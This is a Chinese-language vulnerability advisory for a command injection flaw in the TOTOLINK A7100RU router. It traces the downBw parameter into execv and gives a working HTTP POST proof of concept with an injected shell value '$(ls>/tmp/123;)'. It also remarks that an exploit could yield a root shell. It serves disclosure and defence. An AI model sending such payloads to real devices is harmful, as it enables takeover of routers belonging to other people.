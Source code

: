 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps49.jpg) 

 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220720201446797](img/image-20220720201446797.png)

程序通过获取downBw参数中的内容传递给v34，之后将v34带入到Uci_Set_Str_By_Idx函数中

![image-20220720201537462](img/image-20220720201537462.png)

在Uci_Set_Str_By_Idx函数中，程序将a5带入到Uci_Set_Str函数中

![image-20220720201554867](img/image-20220720201554867.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220720201617915](img/image-20220720201617915.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWanIeCfg",
"downBw":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps50.png) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps51.png) 

 